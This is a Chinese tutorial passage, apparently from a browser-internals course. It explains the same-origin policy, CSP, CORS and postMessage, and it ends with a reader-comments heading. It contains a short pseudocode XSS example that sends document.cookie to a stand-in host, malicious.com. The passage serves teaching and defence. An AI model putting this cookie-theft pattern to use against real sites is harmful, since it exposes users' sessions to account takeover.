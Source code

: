 通过极客时间官网打开一个专栏页面
由于第一个页面和第二个页面是同源关系，所以我们可以在第二个页面中操作第一个页面的 DOM，比如将第一个页面全部隐藏掉，代码如下所示：
{
let pdom = opener.document
pdom.body.style.display = "none"
}
该代码中，对象 opener 就是指向第一个页面的 window 对象，我们可以通过操作 opener 来控制第一个页面中的 DOM。
我们在第二个页面的控制台中执行上面那段代码，就成功地操作了第一个页面中的 DOM，将页面隐藏了，如下图：

通过第二个页面操纵第一个页面的 DOM
不过如果打开的第二个页面和第一个页面不是同源的，那么它们就无法相互操作 DOM 了。比如从极客时间官网打开 InfoQ 的页面（由于它们的域名不同，所以不是同源的），然后我们还按照前面同样的步骤来操作，最终操作结果如下图所示：

不同源的两个页面不能相互操纵 DOM
从图中可以看出，当我们在 InfoQ 的页面中访问极客时间页面中的 DOM 时，页面抛出了如下的异常信息，这就是同源策略所发挥的作用。
Blocked a frame with origin "https://www.infoq.cn" from accessing a cross-origin frame.
第二个，数据层面。同源策略限制了不同源的站点读取当前站点的 Cookie、IndexDB、LocalStorage 等数据。由于同源策略，我们依然无法通过第二个页面的 opener 来访问第一个页面中的 Cookie、IndexDB 或者 LocalStorage 等内容。你可以自己试一下，这里我们就不做演示了。
第三个，网络层面。同源策略限制了通过 XMLHttpRequest 等方式将站点的数据发送给不同源的站点。你还记得在《17 | WebAPI：XMLHttpRequest 是怎么实现的？》这篇文章的末尾分析的 XMLHttpRequest 在使用过程中所遇到的坑吗？其中第一个坑就是在默认情况下不能访问跨域的资源。
安全和便利性的权衡
我们了解了同源策略会隔离不同源的 DOM、页面数据和网络通信，进而实现 Web 页面的安全性。
不过安全性和便利性是相互对立的，让不同的源之间绝对隔离，无疑是最安全的措施，但这也会使得 Web 项目难以开发和使用。因此我们就要在这之间做出权衡，出让一些安全性来满足灵活性；而出让安全性又带来了很多安全问题，最典型的是 XSS 攻击和 CSRF 攻击，这两种攻击我们会在后续两篇文章中再做介绍，本文我们只聊浏览器出让了同源策略的哪些安全性。
1. 页面中可以嵌入第三方资源
我们在文章开头提到过，Web 世界是开放的，可以接入任何资源，而同源策略要让一个页面的所有资源都来自于同一个源，也就是要将该页面的所有 HTML 文件、JavaScript 文件、CSS 文件、图片等资源都部署在同一台服务器上，这无疑违背了 Web 的初衷，也带来了诸多限制。比如将不同的资源部署到不同的 CDN 上时，CDN 上的资源就部署在另外一个域名上，因此我们就需要同源策略对页面的引用资源开一个“口子”，让其任意引用外部文件。
所以最初的浏览器都是支持外部引用资源文件的，不过这也带来了很多问题。之前在开发浏览器的时候，遇到最多的一个问题是浏览器的首页内容会被一些恶意程序劫持，劫持的途径很多，其中最常见的是恶意程序通过各种途径往 HTML 文件中插入恶意脚本。
比如，恶意程序在 HTML 文件内容中插入如下一段 JavaScript 代码：

当这段 HTML 文件的数据被送达浏览器时，浏览器是无法区分被插入的文件是恶意的还是正常的，这样恶意脚本就寄生在页面之中，当页面启动时，它可以修改用户的搜索结果、改变一些内容的连接指向，等等。
除此之外，它还能将页面的的敏感数据，如 Cookie、IndexDB、LoacalStorage 等数据通过 XSS 的手段发送给服务器。具体来讲就是，当你不小心点击了页面中的一个恶意链接时，恶意 JavaScript 代码可以读取页面数据并将其发送给服务器，如下面这段伪代码：
function onClick(){
 let url = `http://malicious.com?cookie = ${document.cookie}`
 open(url)
}
onClick()
在这段代码中，恶意脚本读取 Cookie 数据，并将其作为参数添加至恶意站点尾部，当打开该恶意页面时，恶意服务器就能接收到当前用户的 Cookie 信息。
以上就是一个非常典型的 XSS 攻击。为了解决 XSS 攻击，浏览器中引入了内容安全策略，称为 CSP。CSP 的核心思想是让服务器决定浏览器能够加载哪些资源，让服务器决定浏览器是否能够执行内联 JavaScript 代码。通过这些手段就可以大大减少 XSS 攻击。
2. 跨域资源共享和跨文档消息机制
默认情况下，如果打开极客邦的官网页面，在官网页面中通过 XMLHttpRequest 或者 Fetch 来请求 InfoQ 中的资源，这时同源策略会阻止其向 InfoQ 发出请求，这样会大大制约我们的生产力。
为了解决这个问题，我们引入了跨域资源共享（CORS），使用该机制可以进行跨域访问控制，从而使跨域数据传输得以安全进行。
在介绍同源策略时，我们说明了如果两个页面不是同源的，则无法相互操纵 DOM。不过在实际应用中，经常需要两个不同源的 DOM 之间进行通信，于是浏览器中又引入了跨文档消息机制，可以通过 window.postMessage 的 JavaScript 接口来和不同源的 DOM 进行通信。
总结
好了，今天就介绍到这里，下面我来总结下本文的主要内容。
同源策略会隔离不同源的 DOM、页面数据和网络通信，进而实现 Web 页面的安全性。
不过鱼和熊掌不可兼得，要绝对的安全就要牺牲掉便利性，因此我们要在这二者之间做权衡，找到中间的一个平衡点，也就是目前的页面安全策略原型。总结起来，它具备以下三个特点：
页面中可以引用第三方资源，不过这也暴露了很多诸如 XSS 的安全问题，因此又在这种开放的基础之上引入了 CSP 来限制其自由程度。
使用 XMLHttpRequest 和 Fetch 都是无法直接进行跨域请求的，因此浏览器又在这种严格策略的基础之上引入了跨域资源共享策略，让其可以安全地进行跨域操作。
两个不同源的 DOM 是不能相互操纵的，因此，浏览器中又实现了跨文档消息机制，让其可以比较安全地通信。
思考时间
今天留给你的作业：你来总结一下同源策略、CSP 和 CORS 之间的关系，这对于你理解浏览器的安全策略至关重要。
欢迎在留言区与我分享你的想法，也欢迎你在留言区记录你的思考过程。感谢阅读，如果你觉得这篇文章对你有帮助的话，也欢迎把它分享给更多的朋友。
精选留言(27)
